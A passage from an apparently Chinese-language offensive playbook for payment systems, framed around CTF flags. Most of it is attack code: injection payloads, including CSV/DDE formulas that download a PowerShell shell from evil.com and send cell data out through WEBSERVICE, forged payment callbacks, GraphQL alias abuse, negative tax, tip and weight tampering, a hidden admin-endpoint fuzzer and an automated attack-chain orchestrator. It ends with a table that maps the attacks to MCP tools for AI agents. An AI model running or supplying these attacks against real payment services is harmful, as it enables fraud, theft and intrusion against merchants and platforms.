        "ssti_freemarker": "${7*7}",
        "ssti_velocity": "#set($x='')",

        # === Log injection (管理员日志) ===
        "log_inject": "PAID\n2024-01-01 00:00:00 [ADMIN] order_id=ALL status=refund",

        # === Email header injection (邮件通知) ===
        "email_inject": "test%0d%0aBcc: attacker@evil.com",
    }

    for attack_type, payload in injection_payloads.items():
        r = S.post(BASE + "/api/pay", json={
            "order_id": "ORDER_ID",
            "amount": 0.01,
            "note": payload,
            "description": payload,
            "remark": payload,
            "memo": payload,
        })
        print(f"{attack_type:15s} → {r.status_code}")
```

### 13.2 对账文件 CSV 注入

```python
# 支付备注会导出到 CSV 对账文件
# CSV injection: =cmd|'/C calc'!A0
CSV_INJECTION_PAYLOADS = [
    # Windows
    '=cmd|\'/C calc\'!A0',
    # DDE
    '=cmd|\'/C powershell -c "IEX(New-Object Net.WebClient).DownloadString(\\"http://evil.com/shell.ps1\\")"\'!A0',
    # Excel hyperlink
    '=HYPERLINK("http://evil.com/phish","Click here for receipt")',
    # Data exfiltration via WEBSERVICE
    '=WEBSERVICE("http://evil.com/steal?data="&A1)',
    # Simple formula
    '=1+1',
    # Dynamic Data Exchange via SYLK
    'ID;PWXL;N;E',
]
```

## 14. 时间操纵攻击

### 14.1 支付超时窗口利用

```python
# 支付超时: 订单创建后 N 分钟未支付 → 自动取消
# 但如果取消逻辑有延迟或缺陷:

def payment_timeout_attack():
    """支付超时窗口攻击"""
    # 攻击 1: 超时前最后一刻支付 0.01 → 订单状态竞争
    # 创建订单 (15 分钟超时) → 等待 14:59 → 并发: 改金额为 0.01 + 支付

    # 攻击 2: 超时取消后回调仍可到达
    # notify 到达时订单已 cancelled → 如果 notifier 不检查:
    # cancelled + notify → paid → 发货

    # 攻击 3: 不同组件的超时不一致
    # 订单超时 15min, 支付链接超时 5min, 锁库存 30min
    # 库存还在锁定期 → 超时后资源不释放

    # 攻击 4: 时区问题
    # created_at 是 UTC, timeout 是 Asia/Shanghai → 8 小时偏移
    timezone_payloads = [
        {"created_at": "2024-01-01T00:00:00+14:00"},   # 最东时区
        {"created_at": "2024-01-01T00:00:00-12:00"},   # 最西时区
        {"created_at": "2099-12-31T23:59:59Z"},          # 未来
        {"created_at": "1970-01-01T00:00:00Z"},          # epoch
        {"expire_at": "2099-12-31T23:59:59Z"},           # 永不过期
        {"expire_at": "1970-01-01T00:00:00Z"},           # 已过期 (负数超时)
    ]
```

### 14.2 定时任务竞态

```python
# 很多支付系统用 cron job 处理过期/对账/结算
# 如果 cron 频率可预测:

def cron_timing_attack():
    """定时任务时序攻击"""
    # 场景: 每小时 00 分取消过期订单
    # 攻击: 在 59:59 创建订单 → 订单刚创建就被取消 → 退款到余额?

    # 场景: 每天 03:00 结算对账
    # 攻击: 03:00 前大量操作 → 对账窗口内状态混乱

    # 场景: cron 处理订单由多台机器执行
    # 攻击: 两台机器同时处理同一订单 → 重复操作
    pass
```

## 15. 多租户 / 平台隔离绕过

### 15.1 跨商家支付攻击

```python
# 平台型系统 (类似淘宝/美团/外卖):
# 用户 → 平台 → 多个商家
# 如果租户隔离有缺陷:

def multi_tenant_bypass():
    """多租户支付隔离绕过"""
    TENANT_ATTACKS = [
        # 1. 商家 A 的优惠券用在商家 B
        {
            "name": "cross_merchant_coupon",
            "payload": {"merchant_id": "A", "coupon_code": "B_COUPON"},
            "risk": "优惠券不绑定 merchant_id"
        },
        # 2. 商家 A 的订单用商家 B 的支付方式
        {
            "name": "cross_merchant_payment",
            "payload": {"order_id": "A_ORDER", "merchant_id": "B"},
            "risk": "支付时不校验订单归属"
        },
        # 3. 平台补贴滥用 (平台出钱的优惠)
        {
            "name": "platform_subsidy_abuse",
            "payload": {"order_id": "MY_ORDER", "platform_coupon": "PLAT50"},
            "risk": "平台补贴可以被刷"
        },
        # 4. 商家子账号越权
        {
            "name": "sub_account_privilege",
            "payload": {"sub_account_id": "MY_ID", "merchant_id": "OTHER_SHOP"},
            "risk": "子账号可操作其他商家订单"
        },
        # 5. 结算周期利用
        {
            "name": "settlement_cycle_gap",
            "flow": "买 → 退款 → 商家结算已完成 → 退款从平台垫付",
            "risk": "商家和平台结算时间差"
        },
    ]
```

### 15.2 跨平台支付方法共享

```python
# 如果多个平台共享支付网关 (同一个微信商户号):
def cross_platform_attack():
    """跨平台支付攻击"""
    # 平台 A 的订单 → 用平台 B 的回调 → 平台 A 的订单变 paid
    # 如果签名用的 app_id/mch_id 相同或可交换:
    S.post("https://platform-B.com/notify", json={
        "out_trade_no": "PLATFORM_A_ORDER_ID",
        "trade_status": "TRADE_SUCCESS",
        "total_amount": "0.01",
        "app_id": "PLATFORM_A_APPID",     # ← 利用平台 A 的 app_id
    })
```

## 16. GraphQL 支付变异攻击

### 16.1 内省发现支付操作

```python
# 如果支付 API 用 GraphQL:
GRAPHQL_PAYMENT_QUERIES = {
    # 内省
    "introspection": """
    query {
      __schema {
        mutationType {
          fields { name description }
        }
      }
    }
    """,
    # 可能存在的支付 mutation
    "create_free_order": """
    mutation {
      createOrder(input: {productId: "1", amount: 0, paymentMethod: FREE}) {
        orderId
        status
      }
    }
    """,
    "update_order_status": """
    mutation {
      updateOrderStatus(orderId: "TARGET", status: PAID) {
        success
      }
    }
    """,
    "apply_all_coupons": """
    mutation {
      applyCoupons(orderId: "TARGET", couponCodes: ["NEWUSER", "VIP", "ADMIN"]) {
        finalAmount
      }
    }
    """,
    # Batching 攻击 (一次请求多次 mutation)
    "batch_status_update": [
        {"query": "mutation { confirmPayment(orderId: \"ORD_1\") { success } }"},
        {"query": "mutation { confirmPayment(orderId: \"ORD_1\") { success } }"},
        {"query": "mutation { confirmPayment(orderId: \"ORD_1\") { success } }"},
    ],
    # Alias 攻击 (同一 mutation 用不同别名绕过限制)
    "alias_coupon": """
    mutation {
      a1: redeemCoupon(code: "LIMIT1")
      a2: redeemCoupon(code: "LIMIT1")
      a3: redeemCoupon(code: "LIMIT1")
    }
    """,
}
```

### 16.2 GraphQL 深度查询绕过限购

```python
# 利用嵌套查询一次请求买多个限量商品
GRAPHQL_NESTED_PURCHASE = """
mutation {
  order1: createOrder(productId: 1, quantity: 1)
  order2: createOrder(productId: 1, quantity: 1)   # ← 同一限量商品
  order3: createOrder(productId: 1, quantity: 1)
  order4: createOrder(productId: 1, quantity: 1)
  order5: createOrder(productId: 1, quantity: 1)
}
"""
```

## 17. 隐藏端点发现

### 17.1 支付管理 API 字典

```python
# 支付系统常有未文档化的管理端点:
HIDDEN_PAYMENT_ENDPOINTS = [
    # 管理类
    "/admin/payment/confirm",
    "/admin/order/force-paid",
    "/admin/transaction/complete",
    "/manage/payment/mark-paid",
    "/internal/payment/verify",
    "/api/admin/payment/callback",
    "/api/v1/internal/notify",

    # 调试/测试类
    "/debug/payment/complete",
    "/test/payment/success",
    "/sandbox/payment/confirm",
    "/dev/payment/callback",
    "/mock/notify",

    # 回调模拟
    "/api/payment/simulate",
    "/api/payment/mock-notify",
    "/api/payment/test-callback",

    # 状态修改
    "/api/order/bulk-update",
    "/api/order/admin-update",
    "/api/transaction/override",

    # 退款管理
    "/admin/refund/approve-all",
    "/api/refund/auto-approve",
    "/internal/refund/process",

    # 对账
    "/admin/reconciliation/fix",
    "/api/payment/reconcile",
    "/internal/settlement/adjust",
]

def fuzz_hidden_endpoints():
    """枚举隐藏支付端点"""
    for ep in HIDDEN_PAYMENT_ENDPOINTS:
        for method in ["GET", "POST"]:
            r = S.request(method, BASE + ep, timeout=10, allow_redirects=False)
            if r.status_code not in (404, 403):
                print(f"[!] {method} {ep} → {r.status_code} | {r.text[:150]}")
```

### 17.2 Swagger/OpenAPI 文档泄露

```python
# 支付 API 文档路径
API_DOC_PATHS = [
    "/swagger.json", "/swagger-ui.html", "/swagger/index.html",
    "/openapi.json", "/openapi.yaml", "/api-docs", "/api-docs/swagger.json",
    "/v2/api-docs", "/v3/api-docs",
    "/redoc", "/docs", "/api/docs",
    "/graphql", "/graphiql", "/playground",
    "/.well-known/openapi.json",
]
```

## 18. 税务 / 运费 / 附加费操纵

### 18.1 税费绕过

```python
# 跨境支付中税费独立计算:
# total = subtotal + tax + shipping
# 如果 tax/shipping 可以传负数:

def tax_shipping_bypass():
    """税费运费绕过"""
    payloads = {
        # 负税
        "negative_tax": {"subtotal": 100, "tax": -99, "shipping": 0},
        # 零税 (VAT ID / 免税)
        "vat_exempt": {"subtotal": 100, "tax": 0, "vat_id": "FAKE_VAT_EXEMPT"},
        # 负运费
        "negative_shipping": {"subtotal": 100, "tax": 0, "shipping": -99},
        # 自提 (0 运费 + 自提不验证)
        "self_pickup": {"subtotal": 100, "tax": 0, "shipping": 0, "delivery_method": "self_pickup"},
        # 运费模板注入
        "shipping_template": {"subtotal": 100, "shipping_template_id": -1},  # -1 → 不存在的模板 → 免费?
        # 多地址拆分
        "multi_address": {"items": [
            {"product": 1, "qty": 1, "shipping_address": "ADDR_1", "tax_rate": 0},
            {"product": 1, "qty": 1, "shipping_address": "ADDR_2", "tax_rate": 0},
        ]},
    }
```

### 18.2 运费计算逻辑利用

```python
# 运费按重量/体积/金额计算:
# - 满 99 包邮: 订单 100 → 加优惠券 -50 → 50 不包邮 → 再加运费 20
#   但如果先算运费再减优惠 → 可能 0 运费 + 优惠

# - 重量计算: 如果 weight 可传负数 → 总重量变轻 → 运费变少

def shipping_logic_attack():
    # 攻击: 修改商品重量
    r = S.post(BASE + "/api/order/create", json={
        "product_id": 1,
        "quantity": 1,
        "weight_override": -100,     # 负重量
        "dimensions": {"l": 0, "w": 0, "h": 0},  # 零体积
    })
```

## 19. 小费 / 打赏功能利用

```python
# 小费/打赏功能常见漏洞:
def tip_gratuity_attacks():
    """小费打赏攻击"""
    attacks = {
        # 负小费: 100 元订单 + (-99) 小费 = 1 元
        "negative_tip": {"order_amount": 100, "tip": -99},

        # 小费支付流程独立: 只支付小费 0.01，但触发了整单 paid
        "tip_triggers_paid": {"pay_tip_only": 0.01},

        # 打赏退款: 打赏 100 → 退款 100 → 打赏金额退到余额
        "tip_to_balance": {"flow": "打赏自己 → 退款 → 余额增加"},

        # 打赏赠送: 打赏 ≥ X 送 VIP → 打赏 0.01 → 获得 VIP
        "tip_entitlement": {"amount": 0.01, "tip_threshold": 100},

        # 打赏者信息可伪造: 打赏时伪造打赏者 → 他人账号收到打赏
        "tip_forgery": {"tip_from": "VICTIM_USER_ID", "tip_to": "MY_ID", "amount": 9999},
    }
```

## 20. 高级攻击链编排

### 20.1 完整自动化攻击编排器

```python
# payment_orchestrator.py — 按攻击图自动编排多步攻击
from dataclasses import dataclass, field
from enum import Enum
import itertools

class AttackPhase(Enum):
    RECON = "recon"
    PARAM_FUZZ = "param_fuzz"
    STATE_MACHINE = "state_machine"
    RACE_CONDITION = "race_condition"
    CALLBACK_FORGE = "callback_forge"
    ENTITLEMENT = "entitlement"

@dataclass
class AttackStep:
    phase: AttackPhase
    name: str
    request: dict
    success_condition: callable

@dataclass
class AttackChain:
    steps: list[AttackStep]
    preconditions: list[str]
    flag_patterns: list[str] = field(default_factory=lambda: ["flag{", "CTF{", "DASCTF{"])

class PaymentOrchestrator:
    def __init__(self, base_url: str, session=None):
        self.base = base_url
        self.s = session or requests.Session()
        self.findings = []
        self.state = {}  # 全局状态: order_id, balance, entitlements

    def run_chain(self, chain: AttackChain):
        """按顺序执行攻击链，每一步依赖前一步的输出"""
        results = []
        for i, step in enumerate(chain.steps):
            print(f"[{i+1}/{len(chain.steps)}] {step.phase.value}: {step.name}")

            # 构造请求: 支持模板变量 {order_id} {amount} 等
            req = self._interpolate(step.request)

            # 发送请求
            r = self._send(req)

            # 检查成功条件
            passed = step.success_condition(r, self.state)
            results.append({"step": step.name, "passed": passed, "response": r})

            # 更新状态 (提取 order_id, balance 等)
            self._update_state(r)

            # 检查 flag
            self._check_flag(r, chain.flag_patterns)

            if not passed:
                print(f"  [!] Step failed, chain broken")
                break

        return results

    def _interpolate(self, req: dict) -> dict:
        """模板替换: {order_id} → self.state['order_id']"""
        import copy, re
        data = copy.deepcopy(req)
        for key, value in data.items():
            if isinstance(value, str):
                data[key] = re.sub(r'\{(\w+)\}',
                    lambda m: str(self.state.get(m.group(1), m.group(0))), value)
        return data

    def _send(self, req: dict):
        method = req.get("method", "POST")
        url = self.base + req["path"]
        if method == "POST":
            if "json" in req:
                return self.s.post(url, json=req["json"], timeout=15)
            return self.s.post(url, data=req.get("data"), timeout=15)
        return self.s.get(url, params=req.get("params"), timeout=15)

    def _update_state(self, r):
        try:
            data = r.json()
            if "order_id" in data:
                self.state["order_id"] = data["order_id"]
            if "data" in data and "order_id" in data["data"]:
                self.state["order_id"] = data["data"]["order_id"]
            if "balance" in data:
                self.state["balance"] = data["balance"]
        except:
            pass

    def _check_flag(self, r, patterns):
        for pattern in patterns:
            import re
            matches = re.findall(pattern, r.text)
            if matches:
                print(f"  [🏴 FLAG] {matches}")
                self.findings.extend(matches)

# 预定义攻击链
FULL_ATTACK_CHAINS = {
    "zero_price_chain": AttackChain(
        preconditions=["valid_session", "product_list"],
        steps=[
            AttackStep(AttackPhase.PARAM_FUZZ, "创建 0 元订单", {
                "method": "POST", "path": "/api/order/create",
                "json": {"product_id": 1, "amount": 0, "quantity": 1}
            }, lambda r, s: r.status_code == 200 and "order_id" in (r.json() or {})),
            AttackStep(AttackPhase.STATE_MACHINE, "强制支付", {
                "method": "POST", "path": "/api/order/{order_id}/pay",
                "json": {"status": "paid"}
            }, lambda r, s: r.status_code == 200),
            AttackStep(AttackPhase.ENTITLEMENT, "领取权益", {
                "method": "GET", "path": "/api/order/{order_id}/deliver"
            }, lambda r, s: True),
        ]
    ),
    "race_coupon_chain": AttackChain(
        preconditions=["coupon_code", "valid_session"],
        steps=[
            AttackStep(AttackPhase.RACE_CONDITION, "并发领取优惠券", {
                "method": "POST", "path": "/api/coupon/redeem",
                "json": {"code": "LIMITED_COUPON"},
                "concurrent": True, "count": 50, "workers": 20
            }, lambda r, s: len(r) > 1),  # r 是列表
        ]
    ),
    "callback_forge_chain": AttackChain(
        preconditions=["order_id", "notify_url_found"],
        steps=[
            AttackStep(AttackPhase.CALLBACK_FORGE, "空签名回调", {
                "method": "POST", "path": "/notify",
                "json": {"out_trade_no": "{order_id}", "trade_status": "TRADE_SUCCESS", "sign": ""}
            }, lambda r, s: r.status_code == 200 and "fail" not in r.text.lower()),
            AttackStep(AttackPhase.ENTITLEMENT, "查看订单状态", {
                "method": "GET", "path": "/api/order/{order_id}"
            }, lambda r, s: r.json().get("status") == "paid"),
        ]
    ),
}
```

### 20.2 终极攻击链



## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 支付 API 探测 | `http_probe` | HTTP GET 探测支付接口端点 |
| 知识检索 | `kb_router` | 按支付绕过信号搜索知识库 |
